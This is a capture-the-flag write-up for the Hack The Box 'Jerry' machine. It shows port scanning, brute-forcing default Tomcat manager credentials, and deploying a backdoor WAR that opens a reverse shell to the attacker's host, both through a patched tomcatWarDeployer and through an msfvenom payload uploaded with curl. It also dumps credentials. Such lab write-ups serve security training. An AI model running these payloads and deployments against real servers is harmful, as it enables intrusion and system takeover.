




---
tags:
  - windows
  - hack
---
# HTB: [Jerry](https://app.hackthebox.com/machines/Jerry)

Default Tomcat credentials allow for deploying a malicious WAR file which gives up the system user.

## Services

### TCP

`nmap` TCP scan:

```console
# Nmap 7.94SVN scan initiated Wed Sep  4 10:06:14 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-jerry.htb.txt jerry.htb
Nmap scan report for jerry.htb (10.10.10.95)
Host is up, received user-set (0.091s latency).
rDNS record for 10.10.10.95: t
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 10:07:10 2024 -- 1 IP address (1 host up) scanned in 56.54 seconds
```

#### 8080/tcp-http



`http://jerry.htb:8080/manager/status`:



`feroxbuster -u http://jerry.htb:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1 -s 200`:

```console
200      GET       34l      165w     1329c http://jerry.htb:8080/docs/api/index.html
401      GET       63l      289w     2536c http://jerry.htb:8080/manager/html
401      GET       54l      241w     2098c http://jerry.htb:8080/host-manager/html
302      GET        0l        0w        0c http://jerry.htb:8080/host-manager/ => http://jerry.htb:8080/host-manager/html
302      GET        0l        0w        0c http://jerry.htb:8080/manager/ => http://jerry.htb:8080/manager/html
200      GET      237l     1259w     9600c http://jerry.htb:8080/docs/RELEASE-NOTES.txt
200      GET       18l      126w     9193c http://jerry.htb:8080/tomcat.png
200      GET      351l      786w     5931c http://jerry.htb:8080/tomcat.css
200      GET      264l     1436w    17469c http://jerry.htb:8080/docs/setup.html
302      GET        0l        0w        0c http://jerry.htb:8080/docs => http://jerry.htb:8080/docs/
200      GET      588l     4109w    43296c http://jerry.htb:8080/docs/security-howto.html
200      GET      413l     2354w    27071c http://jerry.htb:8080/docs/deployer-howto.html
401      GET       63l      289w     2536c http://jerry.htb:8080/manager/status
200      GET      733l     4441w    49780c http://jerry.htb:8080/docs/cluster-howto.html
200      GET     1281l     7026w    67726c http://jerry.htb:8080/docs/realm-howto.html
200      GET     1423l     7952w    81642c http://jerry.htb:8080/docs/manager-howto.html
200      GET       22l       93w    42556c http://jerry.htb:8080/favicon.ico
200      GET      731l     3863w    41273c http://jerry.htb:8080/docs/jndi-datasource-examples-howto.html
302      GET        0l        0w        0c http://jerry.htb:8080/examples => http://jerry.htb:8080/examples/
200      GET        0l        0w  1051154c http://jerry.htb:8080/docs/changelog.html
200      GET      201l      495w    11398c http://jerry.htb:8080/
302      GET        0l        0w        0c http://jerry.htb:8080/manager => http://jerry.htb:8080/manager/
200      GET        0l        0w        0c http://jerry.htb:8080/con
...
```

## Remote Code Execution

```console
$ ffuf -w ./Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt -H "Authorization: Basic FUZZ" -u http://jerry.htb:8080/manager/html -fc 403,401 -c
...
dG9tY2F0OnMzY3JldA==    [Status: 200, Size: 17035, Words: 1119, Lines: 380, Duration: 159ms]
dG9tY2F0OnMzY3JldA==    [Status: 200, Size: 17035, Words: 1119, Lines: 380, Duration: 157ms]
:: Progress: [79/79] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

$ echo 'dG9tY2F0OnMzY3JldA==' | base64 -d
tomcat:s3cret
```



<https://github.com/mgeeky/tomcatWarDeployer.git> works, although to make it work I needed to patch it like this:

```diff
diff --git a/tomcatWarDeployer.py b/tomcatWarDeployer.py
index df40d9b..3fe7383 100755
--- a/tomcatWarDeployer.py
+++ b/tomcatWarDeployer.py
@@ -105,7 +105,7 @@ def execcmd(cmd):

 def issueCommand(sock, cmd, isWindows, path = ''):
     if isWindows:
-        cmd = cmd + '\r\n'
+        cmd = cmd + b'\r\n'
     else:
         cmd = cmd + '\n'

@@ -113,16 +113,16 @@ def issueCommand(sock, cmd, isWindows, path = ''):
     res = recvall(sock).strip()

     if isWindows:
-        res = res.replace(cmd, '')
-        lines = res.split('\r\n')
+        res = res.replace(cmd, b'')
+        lines = res.split(b'\r\n')

         if len(lines) > 2 and lines[-2].strip() == '' \
             and re.match(r'[A-Z]\:(?:\\[^>]+)>', lines[-1]):
-            res = '\r\n'.join(lines[:-2])
+            res = b'\r\n'.join(lines[:-2])

-        lines = res.split('\r\n')
+        lines = res.split(b'\r\n')
         if lines[-1].strip() == path:
-            res = '\r\n'.join(lines[:-1]).strip()
+            res = b'\r\n'.join(lines[:-1]).strip()

     return res

@@ -138,13 +138,13 @@ def shellLoop(sock, host):
         except:
             pass

-        if 'Microsoft Windows [Version' in initialRecv:
-            lines = initialRecv.split('\r\n')
+        if b'Microsoft Windows [Version' in initialRecv:
+            lines = initialRecv.split(b'\r\n')
             path = lines[-1]
             isWindows = True

-        whoami = issueCommand(sock, 'whoami', isWindows, path)
-        hostname = issueCommand(sock, 'hostname', isWindows, path)
+        whoami = issueCommand(sock, b'whoami', isWindows, path)
+        hostname = issueCommand(sock, b'hostname', isWindows, path)

     except (socket.gaierror, socket.error) as e:
         logger.error(
@@ -295,7 +295,7 @@ def generateWAR(code, title, appname):
         f.write(code)

     javaver = execcmd('java -version')
-    m = re.search('version "([^"]+)"', javaver, re.M|re.I)
+    m = re.search('version "([^"]+)"', javaver.decode('utf8'), re.M|re.I)
     if m:
         javaver = m.group(1)
         logger.debug('Working with Java at version: %s' % javaver)
@@ -372,7 +372,7 @@ Created-By: %s (Sun Microsystems Inc.)
     logger.debug(packing)

     tree = execcmd('tree %s' % dirpath)
-    if not ('sh' in tree and 'tree: not found' in tree):
+    if not (b'sh' in tree and 'tree: not found' in tree):
         logger.debug('WAR file structure:')
         logger.debug(tree)

@@ -597,7 +597,7 @@ def invokeApplication(browser, url, opts):

         resp = browser.open(appurl)
         src = resp.read()
-        if 'JSP Backdoor deployed as WAR on Apache Tomcat.' in src:
+        if b'JSP Backdoor deployed as WAR on Apache Tomcat.' in src:
             logger.debug('Application invoked correctly.')
             return True
         else:
@@ -860,7 +860,7 @@ def browseToManager(host, url, user, password):
             page = browser.open(managerurl)

             data = page.read()
-            m = re.search('Apache Tomcat/([^<]+)', data)
+            m = re.search('Apache Tomcat/([^<]+)', data.decode('utf8'))
             if m:
                 logger.debug('Probably found something: Apache Tomcat/%s' % m.group(1))
                 tomcatVersion = m.group(1)
```

That patch is incomplete in that it still errors out on the command line, but it works well enough to deploy the webshell:

```console
$ python3 ./tomcatWarDeployer.py -U tomcat -P s3cret -H 10.10.14.14 -p 443 jerry.htb:8080/manager/html/ -x

        tomcatWarDeployer (v. 0.5.2)
        Apache Tomcat auto WAR deployment & launching tool
        Mariusz Banach / MGeeky '16-18

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.

INFO: Reverse shell will connect to: 10.10.14.14:443.
INFO: Apache Tomcat/7.0.88 Manager Application reached & validated.
INFO:   At: "http://jerry.htb:8080/manager/html/"
WARNING: Application with name: "jsp_app" is already deployed.
INFO: WAR DEPLOYED! Invoking it...
INFO: ------------------------------------------------------------
INFO: JSP Backdoor up & running on http://jerry.htb:8080/jsp_app/
INFO:
Happy pwning. Here take that password for web shell: 'hwS3te1prkiw'
INFO: ------------------------------------------------------------

INFO: Connected with: b'nt authority\\system'@b'JERRY'

b'C:\\apache-tomcat-7.0.88>' whoami /priv
Exception in thread Thread-1 (shellHandler):
Traceback (most recent call last):
  File "/usr/lib/python3.11/threading.py", line 1045, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.11/threading.py", line 982, in run
    self._target(*self._args, **self._kwargs)
  File "/home/e/src/tomcatWarDeployer/./tomcatWarDeployer.py", line 229, in shellHandler
    shellLoop(sock, host)
  File "/home/e/src/tomcatWarDeployer/./tomcatWarDeployer.py", line 178, in shellLoop
    res = issueCommand(sock, command, isWindows, path)
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/e/src/tomcatWarDeployer/./tomcatWarDeployer.py", line 108, in issueCommand
    cmd = cmd + b'\r\n'
          ~~~~^~~~~~~~~
TypeError: can only concatenate str (not "bytes") to str
```



Note that this gives up the `nt authority\system` user, so privilege escalation isn't necessary.

### A Cleaner Way

This also works, and is easier:

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.14 lport=443 -f war -o hax.war
Payload size: 13031 bytes
Final size of war file: 13031 bytes
Saved as: hax.war

$ curl -u 'tomcat:s3cret' http://jerry.htb:8080/manager/text/deploy?path=/hax --upload-file hax.war 
OK - Deployed application at context path /hax

$ curl http://jerry.htb:8080/hax/
```

```console
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.95] 49224
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

## Post-exploitation

Life after `root`.

```xml
PS C:\apache-tomcat-7.0.88\conf> cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>
<tomcat-users>
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="s3cret" roles="tomcat, manager-gui, manager-script, manager-jmx, manager-status"/>
  <user username="admin" password="admin" roles="role1, manager-status"/>
  <user username="jerry" password="tomcat" roles="role1, manager-status"/>
</tomcat-users>
```

```text
Host Name:                 JERRY
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-00112-46014-AA570
Original Install Date:     6/18/2018, 11:30:45 PM
System Boot Time:          9/5/2024, 2:05:24 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,053 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,686 MB
Virtual Memory: In Use:    1,113 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 142 Hotfix(s) Installed.
                           [01]: KB2868626
...
                           [142]: KB4284815
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.95
                                 [02]: fe80::e026:f5ca:fc24:af5f
                                 [03]: dead:beef::e026:f5ca:fc24:af5f
                                 [04]: dead:beef::84
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```
